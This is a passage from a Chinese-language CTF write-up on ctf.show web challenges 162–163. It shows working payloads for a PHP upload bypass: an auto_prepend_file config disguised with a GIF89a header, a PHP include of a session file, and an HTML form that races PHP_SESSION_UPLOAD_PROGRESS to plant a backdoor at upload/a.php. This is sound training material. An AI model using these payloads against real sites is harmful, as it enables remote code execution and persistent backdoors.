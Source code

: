 ```
GIF89a
auto_prepend_file=ma
```

但上传`ma` 文件，同样不能包含日志文件。这时候就需要包含session文件了。

这里还过滤了`flag `

上传 `ma`

```
GIF89a
<?=include"/tmp/sess_fllag"?>
```

那么我们就开始构造，session文件竞争包含。

构造

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://58b10a1f-08e0-4689-8b64-2e8641d2948b.chall.ctf.show/" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="2333" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
```

[![DDCEvT.md.png](https://s3.ax1x.com/2020/11/27/DDCEvT.md.png)](https://imgchr.com/i/DDCEvT)

一直上传，内容为写后门到 `a.php`

然后一直包含session文件。

[![DDCJKO.md.png](https://s3.ax1x.com/2020/11/27/DDCJKO.md.png)](https://imgchr.com/i/DDCJKO)

可以看到成功包含，那么此时我们去`upload/a.php` ,成功访问，并测试后门成功写入。

[![DDCtqe.md.png](https://s3.ax1x.com/2020/11/27/DDCtqe.md.png)](https://imgchr.com/i/DDCtqe)

可以参考[文件包含篇](https://yanmie-art.github.io/2020/11/13/%E4%BB%8E0%E5%BC%80%E5%A7%8B%E5%AD%A6web%E4%B9%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB/)：

还有 [利用session.upload_progress进行文件包含](https://www.freebuf.com/vuls/202819.html)



## web163~包含session文件

过滤还是前面的过滤。

操作和上关一样的。

这里有`upload/index.php` ，所以我们其实可以直接利用此文件包含Session文件。
